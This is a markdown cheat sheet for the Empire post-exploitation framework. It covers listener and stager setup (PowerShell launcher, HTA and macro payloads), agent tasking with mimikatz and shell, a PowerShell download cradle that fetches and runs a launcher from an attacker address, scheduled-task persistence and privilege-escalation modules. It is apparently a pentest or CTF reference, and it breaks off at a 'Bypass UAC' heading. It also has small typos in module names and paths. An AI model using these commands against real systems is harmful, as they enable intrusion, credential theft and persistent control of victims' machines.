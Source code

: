 # Empire CheatSheet

## Common usage
- help or ?
- main : to return to main context
- creds : for credential database
- searchmodule : basic string searches
- listeners : list listeners and switch to listenre context
- usestager : create agent command or file
- agents : list agents and switch to agent context
- usemodule : task agent with a job
- info : display context settings
- set Setting : define settings

## Stager

```
listeners
uselistener http
execute
```

multi/launcher

```
usestager multi/launcher
set Listener http
set SafeChecks False
set 0
set OutFile /opt/Empire/Download/launcher.ps1
generate
```


windows/hta

```
usestager windows/hta
set Listener http
set OutFile /opt/Empire/Downloads/empire.hta
generate
```

windows/macro

```
usestager windnows/macro
set Listener http
set Proxy none
set OutFile /opt/Empire/downloads/empire.bas
generate
```

## Agents

- interact agentname
- rename agentname
- list
- upload file
- download file
- scriptimport /opt/ps/script.ps1
- scriptcmd funcname
- mimikatz
- shell

### Scripts import

```
scriptimport /opt/ps/Sherlock.ps1
scriptcmd Find-AllVulns 
```

```
scriptimport /opt/ps/Invoke-MKW.ps1
scriptcmd Invoke-MKZ
```

### Interact with agent

- sc : screenshot
- shell ls (powershell command only)

## Debugging

start Empire with '*-debug*' flag

```
cat /opt/Empire/empire.log
```

Download cradle:

```
powershell -command "$Z='http://10.10.x.x:3000/launcher.ps1'; IEX (New-Object Net.webclient).Downloadstring($Z)"
```

Clear settings: 

```
/opt/Empire/setup/reset.sh
```

## Persistence

```
usemodule persistence/userland/schtasks
set Listener http
set IdleTime 2
set Agent autorun
run
[>] Module is not opsec safe, run? [y/N] : y
```

## Privesc

```
interact agent
usemodule privesc/powerup/allchecks
```

```
usemodule privesc/gpp
```

Bypass UAC